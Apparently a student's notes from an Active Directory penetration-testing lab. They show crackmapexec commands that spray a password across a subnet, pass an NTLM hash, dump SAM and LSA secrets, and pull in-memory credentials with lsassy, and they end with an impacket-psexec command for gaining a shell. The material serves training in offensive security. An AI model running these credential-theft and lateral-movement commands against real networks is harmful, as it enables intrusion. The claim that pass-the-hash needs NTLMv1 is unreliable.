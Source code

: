  - Needed to install using `pimpmykali:
	- `git clone https://github.com/Dewalt-arch/pimpmykali`
	- `cd pimpmykali; sudo ./pimpmykali`
	- Choose option: `%` to install crackmapexec
	- Get help for smb using: `crackmapexec smb --help`

# Sweep the subnet using crackmapexec
---
- `crackmapexec smb 10.0.1.4/24 -u fcastle -d MARVEL.local -p Password1`
	- Domain `fcastle` user is present on both Punisher and Spiderman, therefore:
		- ![[Pasted image 20250329154733.png]]

# Pass the Hash attack using crackmapexec:
---
- Only works ==if hash is `NTLMv1`==
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth`
	- ![[Pasted image 20250329155406.png]]
- **Dumping SAM hashes:**
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --sam`
	- ![[Pasted image 20250329155628.png]]
- **Dumping LSA**
- ---
- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth --lsa`

	![[Pasted image 20250329160225.png]]

- Some of the secrets are important:
	- `DCC2` : We can take these hashes and try to crack them.
	- These are the ==**stored credentials from which someone logged in past**==.
	- **Could be expired passwords.**

- **More stuff**
- ---
- `crackmapexec -L`
	- `gpp_password` , `impersonation`, `keepass_files`, `keepass_discover`
	- **`LSASSY`**
		- `crackmapexec smb 10.0.1.4/24 -u pparker -H aad3b435b51404eeaad3b435b51404ee:e08e15bd995aa26400e3107deb56bb16 --local-auth -M lsassy`
		- If there is any **==secret stored in memory of logged in users==**, we can see those.

# Psexec
---
- Very similar to `crackmapexec` **but better**
- Gain shell using:
	- `impacket-psexec administrator:'password'@ip_address`
# Stored Credentials using cmedb
---
- `cmedb`
- ![[Pasted image 20250329160550.png]]
- ![[Pasted image 20250329160559.png]]